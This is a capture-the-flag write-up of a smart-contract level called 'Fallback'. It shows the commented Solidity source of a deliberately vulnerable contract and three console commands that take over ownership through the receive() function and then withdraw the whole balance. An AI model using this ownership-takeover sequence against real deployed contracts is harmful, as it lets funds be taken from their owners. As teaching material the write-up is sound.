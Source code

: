 # Fallback 

## Challenge statement

```
Look carefully at the contract's code below.

You will beat this level if

- you claim ownership of the contract
- you reduce its balance to 0

Things that might help

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see help() command)
- Fallback methods
```

## Breakdown

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0; // 0.6.x version

import '@openzeppelin/contracts/math/SafeMath.sol'; // OpenZeppelin SafeMath library

contract Fallback {

  using SafeMath for uint256;
  mapping(address => uint) public contributions; // mapping for address contributions to uint, public for all to view
  address payable public owner; // owner variable, type payable address (can send/receive eth), others can view it

  constructor() public {
    owner = msg.sender; // owner of contract is msg.sender (creator)
    contributions[msg.sender] = 1000 * (1 ether); // set msg.sender to have 1000 * (1 ether)
  }

  // set so only the owner address can proceed
  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether); // must be less than 0.001 ether to work
    contributions[msg.sender] += msg.value; // increment contributions value by msg.value
    if(contributions[msg.sender] > contributions[owner]) { // if the contributions of sender are greater than owner, change owner to sender
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) { // view contribution of of the sender address
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner { // only the owner can withdraw
    owner.transfer(address(this).balance);
  }

  receive() external payable { // another function to change the owner, if the msg.value > 0 and the contributions of the sender are >0, change owner
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

## Solution

This challenges consists of understanding:
- How to interact with the contract 
- How fallback functions work

The goal of the exercise is to transfer ownership of the contract. From reading the code, this is possible by either sending more than 1000 ETH in <0.001 increments or triggering the receive() fallback function.

The simplest method is to trigger the receive() fallback function. For the conditions of receive() to be met, some ether must be sent and the sender must have already contributed some ether.

### Step 1: Contribute <0.001 ether to contract

await contract.contribute({value: toWei("0.0000001")})

### Step 2: Trigger receive() function

await contract.sendTransaction({from: player, to: contract.address, value: toWei("0.0000000001")
})

## Step 3: Withdraw ether

await contract.withdraw();